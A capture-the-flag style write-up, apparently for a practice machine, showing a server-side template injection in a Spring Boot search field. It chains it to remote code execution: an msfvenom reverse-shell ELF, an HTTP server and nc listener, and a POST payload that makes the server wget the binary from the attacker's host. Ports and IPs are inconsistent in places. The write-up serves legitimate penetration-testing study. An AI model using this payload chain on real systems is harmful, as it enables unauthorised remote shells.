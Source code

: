 If we check out the export table we see that it is written in xml. 

![image](https://user-images.githubusercontent.com/105310322/185698965-a683e7f6-fcae-48c3-bd6d-588297069d1b.png)


With the above news I tried for a bit on some XXE exploits but to no avail. However I noticed in BurpSuite if you run a search it shows that its running on Spring Boot. More research shows that it was possible to do a SSTI injection.

After trying out a few ways to detect what type of SSTI injection we can do the following string below in the name field worked.

Note: There are alot of SSTI options but hacktricks has a good guide on testing what it is vulnerable to. https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

This link is where I found the command https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/el-expression-language

So now we can craft an exploit and send it through burpsuite.

```console
└──╼ [★]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.30 LPORT=1234 -f elf  > exploit.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```
Set up our http server to transfer files and a listener to grab the shell then run the following commands from the search portion of the URL in Burpsuite.

Note: Having the * is important for the command to run so the webpage interprets it the way we want.


```console
└──╼ [★]$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.65.161 - - [18/Aug/2022 22:56:25] "GET /exploit.elf HTTP/1.1" 200 -
```
```console
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 10.129.65.161.
Ncat: Connection from 10.129.65.161:58302.
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```
```
POST /search HTTP/1.1
Host: 10.129.66.0:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: http://10.129.66.0:8080
DNT: 1
Connection: close
Referer: http://10.129.66.0:8080/
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://10.10.14.47:8000/exploit.elf")}
```